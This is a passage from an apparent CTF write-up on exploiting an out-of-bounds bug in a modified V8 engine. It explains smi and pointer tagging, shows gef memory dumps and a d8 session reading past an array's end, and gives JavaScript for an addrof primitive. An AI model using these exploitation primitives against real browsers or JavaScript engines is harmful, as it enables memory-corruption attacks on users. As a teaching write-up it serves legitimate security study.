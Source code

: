 * A **double** is stored as its 64-bit binary representation
* An **smi** is a 32-bit number, but it's stored as itself left-shifted by 1 so the bottom bit is null
  * &#x20;e.g. `0x12345678` is stored as `0x2468acf0`
* A **pointer** to an address `addr` is stored as `addr | 1`, that is the least significant bit is set to `1`.
  * e.g. `0x12345678` is stored as `0x12345679`
  * This helps differentiate it from an **smi**, but not from a **double**!

We can see the example of an smi in the second value from the `x/10gx` command above: `0x0000000408085161`. The upper 4 bytes are `4`, which is double `2`, so this is the **length** of the list. The lower 4 bytes correspond to the pointer to the `elements` array, which stores the values themselves. Let's double-check that:

```javascript
gef➤  x/4gx 0x0a5e08085161-1
0xa5e08085160:	0x0000000408042a99	0x3ff8000000000000
0xa5e08085170:	0x4004000000000000	0x0804222d082439f1
```

The first value `0x0000000408042a99` is the `length` smi (a value of `2`, doubled as it's an smi) followed by what I assume is a pointer to the map. That's not important - what's important is the next two values are the floating-point representations of `1.5` and `2.5` (I recognise them from oob-v8!), while the value directly after is `0x0804222d082439f1`, the `properties` and `map` pointer. This means our OOB can work as planned! We just have to ensure we preserve the top 32 bits of this value so we don't ruin the `properties` pointer.

{% hint style="info" %}
Note that we don't know the upper 4 bytes, but that's not important!
{% endhint %}

Let's test that the OOB works as we expected by calling `setHorsepower()` on an array, and reading past the end.

<pre><code><strong>d8> a.setHorsepower(5)
</strong>[1.5, 2.5, , , ]
d8> a[2]
4.763796150676345e-270
d8> ftoi(a[2]).toString(16)
"804222d082439f1"
</code></pre>

Fantastic!

## Complications while Grabbing Maps

This is a bit more complicated than in oob-v8, because of one simple fact: last time, we gained an `addrof` primitive using this:

```javascript
var float_arr = [1.5, 2.5];
var map_float = float_arr.oob();

var initial_obj = {a:1};	// placeholder object
var obj_arr = [initial_obj];
var map_obj = obj_arr.oob();

function addrof(obj) {
    obj_arr[0] = obj;			// put desired obj for address leak into index 0
    obj_arr.oob(map_float);		// change to float map
    let leak = obj_arr[0];		// read address
    obj_arr.oob(map_obj);		// change back to object map, to prevent issues down the line
    return ftoi(leak);			// return leak as an integer
}
```
